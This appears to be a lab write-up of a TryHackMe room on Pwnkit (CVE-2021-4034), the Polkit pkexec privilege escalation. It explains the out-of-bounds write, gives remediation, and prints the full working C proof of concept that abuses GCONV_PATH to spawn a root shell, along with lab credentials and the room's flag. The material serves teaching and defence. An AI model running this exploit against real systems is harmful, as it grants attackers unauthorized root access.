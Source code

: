 # Pwnkit CVE-2021-4034

CVE-2021-4034 (colloquially dubbed "Pwnkit") is a terrifying **L**ocal **P**rivilege **E**scalation (LPE) vulnerability, located in the "Polkit" package installed by default on almost every major distribution of the Linux operating system (as well as many other *nix operating systems). In other words, it affects virtually every mainstream Linux system on the planet.

**Overview**

CVE-2021-4034 (aka "pwnkit") was discovered by researchers at [Qualys](https://www.qualys.com/) and announced in January 2022; the technical security advisory for this vulnerability can be found [here](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt). The vulnerability has existed in every version of the "Policy Toolkit" (or, Polkit) package since it was first released in 2009 and allows any unprivileged attacker to easily obtain full administrative access over any Linux machine with the Polkit package installed. Unfortunately, Polkit is installed by default on most distributions of Linux, making this vulnerability _extremely_ widespread.

The ease of exploitation and ubiquitous nature of Polkit make this an absolutely devastating vulnerability; however, fortunately it is not exploitable remotely, making Pwnkit purely a local privilege escalation (LPE) vulnerability.  

---

**What is Polkit?**  

Before we look at the vulnerability directly, it helps to understand what Polkit actually is.  

Polkit is part of the Linux authorisation system. In effect, when you try to perform an action which requires a higher level of privileges, Polkit can be used to determine whether you have the requisite permissions. It is integrated with systemd and is much more configurable than the traditional sudo system. Indeed, it is sometimes referred to as the "sudo of systemd", providing a granular system with which to assign permissions to users.

When interacting with polkit we can use the `pkexec` utility — it is this program that contains the Pwnkit vulnerability. As an example of using the utility, attempting to run the `useradd` command through `pkexec` in a GUI session results in a pop-up asking for credentials:  
`pkexec useradd test1234`  
![Demonstrating the polkit GUI authentication dialogue](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/3ceb61a94882.png)  

In a CLI session, we get a text-based prompt instead:  

![[Pasted image 20240714040755.png]]

To summarise, the policy toolkit can be thought of as a fine-grained alternative to the simpler sudo system that you may already be familiar with.  

---

**The Vulnerability**

As mentioned previously, the Pwnkit vulnerability exists in the `pkexec` utility — the primary front-end to the Polkit system. We won't go into _too_ much detail here in the interests of readability; however, you are encouraged to read through the [Qualys Security Advisory](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt) for a full technical explanation of the vulnerability.

The short version is this: versions of pkexec released prior to the patch don't handle command-line arguments safely, which leads to an "out-of-bounds write" vulnerability, allowing an attacker to manipulate the environment with which pkexec is run. This is all you _really_ need to know, but for a slightly more technical explanation, read on!  

More specifically, pkexec attempts to parse any command-line arguments that we pass it using a for-loop, starting at an index of 1 to offset the name of the program and obtain the first real argument (e.g. if we entered `pkexec bash`, then as `pkexec` is the name of the program, it would be argument 0 — the actual command-line arguments start at index 1). The name of the program is irrelevant to argument parsing, so the indexing is simply offset to ignore it.

What happens, then, if we don't provide any arguments? The index is set _permanently_ to 1!

The following pseudocode may help you to visualise this:

![[Pasted image 20240714040959.png]]

If the number of arguments is 0 then `n` is _never_ less than the number of arguments. As such, `n` stays equal to one and the loop is bypassed completely.

This becomes a problem later when pkexec attempts to write to the value of the argument at index `n`. As there are no command-line arguments, there _is_ no argument at index `n` — instead the program overwrites the next thing in memory, which just so happens to be the first value in the list of environment variables when the program is called using a C function called `execve()`. In other words, by passing pkexec a null list of arguments, we can force it to overwrite an environment variable instead!  

For context: certain "dangerous" environment variables are removed by the operating system when you attempt to run a program that has the [SUID bit](https://muirlandoracle.co.uk/2020/03/05/unix-file-permissions/#SUID) set (as pkexec does by necessity); this is to prevent attackers from being able to hijack the program as it runs with administrative permissions. Using the out-of-bounds write, we are able to re-introduce our choice of these dangerous environment variables by tricking pkexec into adding it for  us. There are a variety of different ways to abuse this, all leading to code execution as the root user.

---

**Exploitation**

Exploiting Pwnkit is, lamentably, incredibly easy.

There are many exploits available online, and writing your own version is not particularly difficult.

The version that we will be using is written in C by arthepsy, and was released soon after the Qualys security advisory was made public. The repository can be found [here](https://github.com/arthepsy/CVE-2021-4034). This variation of the exploit makes use of the dangerous `GCONV_PATH` variable to include a malicious shared object file that calls the `/bin/sh` shell with root permissions.  

---

First, we must connect to the target machine. If you are using the in-browser connection, then you will already have access through your browser, using the terminal on the right-hand side of the screen.

If you are **not** using the in-browser connection, then you can connect using SSH and these credentials:

- Username: `tryhackme`  
    
- Password:  `TryHackMe123!`  
    

Once connected, we need to navigate to the pre-added `pwnkit/` subdirectory, then compile the exploit using the following command:

`gcc cve-2021-4034-poc.c -o exploit`  

We can then run the exploit with `./exploit` to obtain instant root access over the target!

---

Check OS Version:

```php
grep PRETTY /etc/os-release
```

Read through the `cve-2021-4034-poc.c` file and try to understand how it works. See if you can match this up with the [Qualys security advisory](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt) and the explanation given in the previous task!

Exploit the vulnerability!  
_What is the flag located at `/root/flag.txt`?_

![[Pasted image 20240714042303.png]]

**THM{CONGRATULATIONS-YOU-EXPLOITED-PWNKIT}**

_**[Bonus Question — Optional]** Using the [Qualys advisory](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt) and the [repository](https://github.com/arthepsy/CVE-2021-4034) linked in the task, try to write your own version of the Pwnkit exploit._

```c
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec->
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n\n"
        "void gconv() {}\n"
        "void gconv_init() {\n"
        "       setuid(0); setgid(0);\n"
        "       seteuid(0); setegid(0);\n"
        "       system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
        "       exit(0);\n"
        "}";

int main(int argc, char *argv[]) {
        FILE *fp;
        system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
        system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
        fp = fopen("pwnkit/pwnkit.c", "w");
        fprintf(fp, "%s", shell);
        fclose(fp);
        system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
        char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
        execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

---

**Remediation**

Now that we've seen the devastating impact of CVE-2021-4034, how can we protect against it?  

Fortunately, developers tend to be fairly fast when it comes to developing patches for critical vulnerabilities. As a prime example: at the time of writing, Canonical have already released patched versions of the Polkit package in the APT package manager for all versions of Ubuntu which are not end-of-life. The patched version can be installed with a simple apt upgrade — e.g. `sudo apt update && sudo apt upgrade`.

In distributions which have not yet released patched versions of the package, the recommended hotfix is to simply remove the SUID bit from the pkexec binary. This can be done with a command such as the following:

`` sudo chmod 0755 `which pkexec` ``  

This is far from ideal, however, it works as a temporary solution until more distributions start packaging versions of polkit that are patched against Pwnkit.

It should be noted that there are many variations of the Pwnkit exploit using different environment variables and exploiting the vulnerability in different ways. Some of these leave traces and logs behind, others do not.  

You can check to ensure that a system is patched by attempting to run a copy of the exploit against it. If the exploit returns the `pkexec` help menu then the system is patched:

![[Pasted image 20240714042502.png]]



